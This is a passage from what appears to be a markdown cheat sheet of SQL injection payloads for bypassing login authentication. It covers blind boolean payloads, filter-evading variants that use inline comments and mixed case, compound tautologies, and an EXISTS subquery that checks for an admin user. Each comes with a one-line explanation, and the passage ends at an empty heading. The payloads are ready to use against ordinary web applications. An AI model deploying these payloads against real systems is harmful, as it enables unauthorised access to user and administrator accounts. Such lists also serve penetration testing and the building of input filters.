 ```
'/**/OR/**/'1'/**/=/**/'1' --
```

## Blind Authentication Bypass
Use SQL Injection in scenarios where the response does not explicitly show whether the injection was successful.

- **Boolean-Based Blind SQLi:** This payload adds a `LIMIT 1` clause, which might bypass the authentication by returning a single valid row when the condition is true.

```
' OR 1=1 LIMIT 1 --
```

- **Using `AND` for Blind SQLi:** The payload ensures that the condition is true using `AND`. This can be used in scenarios where you need to confirm a condition without altering the logic too drastically.

```
' AND 1=1 --
```

- **Case Sensitivity Exploit:** A variation that might bypass filters that are case-sensitive, particularly those looking for lowercase SQL keywords like `or`.

```
' oR 'A'='A' --
```

## Compound Payloads for Bypass
Combine different techniques to create more complex bypass payloads that evade more sophisticated defenses.

- **Multiple Conditions:** This payload adds multiple true conditions, which can evade basic filters that only look for single conditions like `'1'='1'`.

```
' OR '1'='1' AND 'a'='a' --
```

- **Mixed Numeric and String Tautology:** A combination of numeric and string tautologies, potentially useful in situations where filters are looking for only one type of condition.

```
' OR 1=1 AND 'a'='a' --
```

- **Nested SQL Queries:** This payload checks if the `admin` username exists, which can be used in situations where the application allows nested queries.

```
' OR EXISTS (SELECT 1 FROM users WHERE username='admin') --
```

## Bypassing with Logical Operators
Use different logical operators to bypass the authentication logic.

